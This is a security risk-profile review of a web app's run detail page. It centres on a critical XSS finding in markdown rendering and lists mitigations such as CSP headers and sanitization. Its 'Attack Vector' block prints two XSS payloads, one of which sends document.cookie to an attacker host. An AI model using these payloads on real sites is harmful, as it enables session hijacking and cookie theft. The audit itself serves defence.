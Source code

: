 # Risk Profile: Story 7.3 - Run Detail Page with Tabs

**Date:** 2025-10-22
**Reviewer:** Quinn (Test Architect)
**Story ID:** 7.3
**Story Title:** Run Detail Page with Tabs

---

## Executive Summary

- **Total Risks Identified:** 12
- **Critical Risks (Score 9):** 2
- **High Risks (Score 6):** 3
- **Medium Risks (Score 4):** 5
- **Low Risks (Score 2-3):** 2
- **Overall Risk Score:** 33/100 (HIGH RISK - requires mitigation)

**Critical Finding:** This story has **2 critical security vulnerabilities** and **significant data integrity risks** due to mock API implementation with no real Prisma integration. The optimistic UI pattern without proper error recovery poses data consistency concerns.

---

## Critical Risks Requiring Immediate Attention

### 1. SEC-001: XSS Vulnerability in Markdown Rendering

**Score: 9 (Critical)**
**Probability:** High (3) - User-generated content rendered without sanitization
**Impact:** High (3) - Complete account compromise, data theft, session hijacking

**Description:**
ReactMarkdown renders opportunity card content and stage outputs without explicit sanitization. While `react-markdown` has built-in XSS protection, the `remarkGfm` plugin can introduce vulnerabilities through HTML in markdown. No Content Security Policy (CSP) headers detected.

**Affected Components:**
- `RunDetailOpportunityCards.tsx` (lines 73, 125-127)
- `RunDetailFullReport.tsx` (lines 75-77, 91-93, 125-127)
- All markdown rendering instances

**Attack Vector:**
```markdown
[Click me](javascript:alert(document.cookie))
<img src=x onerror="fetch('https://attacker.com?cookie='+document.cookie)">
```

**Mitigation Required:**
1. **IMMEDIATE:** Add `allowedElements` whitelist to ReactMarkdown
2. **IMMEDIATE:** Implement CSP headers in Next.js middleware
3. Add `rehype-sanitize` plugin for additional HTML sanitization
4. Validate and sanitize all markdown content before storage
5. Implement output encoding for user-supplied data
